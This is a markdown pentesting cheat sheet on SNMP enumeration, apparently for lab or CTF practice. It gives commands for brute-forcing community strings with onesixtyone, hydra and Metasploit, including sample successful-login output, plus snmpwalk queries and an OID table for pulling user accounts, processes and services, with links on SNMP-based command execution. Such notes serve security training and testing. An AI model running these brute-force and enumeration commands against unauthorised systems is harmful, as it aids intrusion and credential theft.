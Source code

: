 ## Simple Network Management Protocol (SNMP)

SCAN
```
161/udp   open|filtered snmp
```
Note: `open|filtered` may still respond!

Community String Brute-Force 
```
onesixtyone "$IP" -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt
onesixtyone 10.10.221.173 -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt

hydra -P /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt -f "$IP" snmp
```
Community String with Metasploit 
```
msfconsole -q
msf6 > use scanner/snmp/snmp_login
msf6 auxiliary(scanner/snmp/snmp_login) > run
[!] No active DB -- Credential data will not be saved!
[+] 10.10.221.173:161 - Login Successful: openview (Access level: read-only); Proof (sysDescr.0): Hardware: Intel64 Family 6 Model 79 Stepping 1 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 17763 Multiprocessor Free)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Management Information Base (MIB) Query
```
snmpwalk -c <COMMUNITY> -v<1/2c/3> "$IP"
snmpwalk -c public -v1 -t 10 192.168.50.151


snmp-check -c <COMMUNITY> "$IP"
snmp-check -c openview "$IP"
```

Specified MIB Query
```
snmpwalk -c <COMMUNITY> <VERSION> "$IP" <Object Identifier>
snmpwalk -c openview -v1 10.10.221.173 1.3.6.1.4.1.77.1.2.25 
```

### OID: NET-SNMP-EXTEND-MIB
```
snmpwalk <VERSION> -c <COMMUNITY> "$IP" NET-SNMP-EXTEND-MIB::nsExtendObjects
snmpwalk -v2c -c public 192.168.150.149 NET-SNMP-EXTEND-MIB::nsExtendObjects
```
Reference:  
- [Abusing Linux SNMP for RCE](https://mogwailabs.de/en/blog/2019/10/abusing-linux-snmp-for-rce/)  
- [SNMP Arbitrary Command Execution and Shell](https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/)

### Common OIDs for SNMP Enumeration

| **Enumeration Task**                      | **OID**                    | **Description**                                           |
| ----------------------------------------- | -------------------------- | --------------------------------------------------------- |
| **System Information**                    | `1.3.6.1.2.1.1`            | General system info (hostname, uptime, description, etc.) |
| **Running Processes**                     | `1.3.6.1.2.1.25.4.2.1.2`   | Lists currently running processes                         |
| **Installed Software**                    | `1.3.6.1.2.1.25.6.3.1.2`   | Enumerates installed applications                         |
| **Open TCP Ports**                        | `1.3.6.1.2.1.6.13.1.3`     | Lists listening TCP ports                                 |
| **Open UDP Ports**                        | `1.3.6.1.2.1.6.13.1.2`     | Lists listening UDP ports                                 |
| **User Accounts**                         | `1.3.6.1.4.1.77.1.2.25`    | Retrieves local user accounts                             |
| **Network Interfaces**                    | `1.3.6.1.2.1.2.2.1.2`      | Lists network interfaces on the device                    |
| **ARP Table**                             | `1.3.6.1.2.1.4.22.1.2`     | Retrieves ARP cache (IP-MAC mappings)                     |
| **Routing Table**                         | `1.3.6.1.2.1.4.21.1`       | Retrieves routing table entries                           |
| **Uptime**                                | `1.3.6.1.2.1.1.3.0`        | System uptime in ticks                                    |
| **Hostname**                              | `1.3.6.1.2.1.1.5.0`        | Retrieves system hostname                                 |
| **Windows Services (if SNMP is enabled)** | `1.3.6.1.4.1.77.1.2.3.1.1` | Lists running Windows services                            |
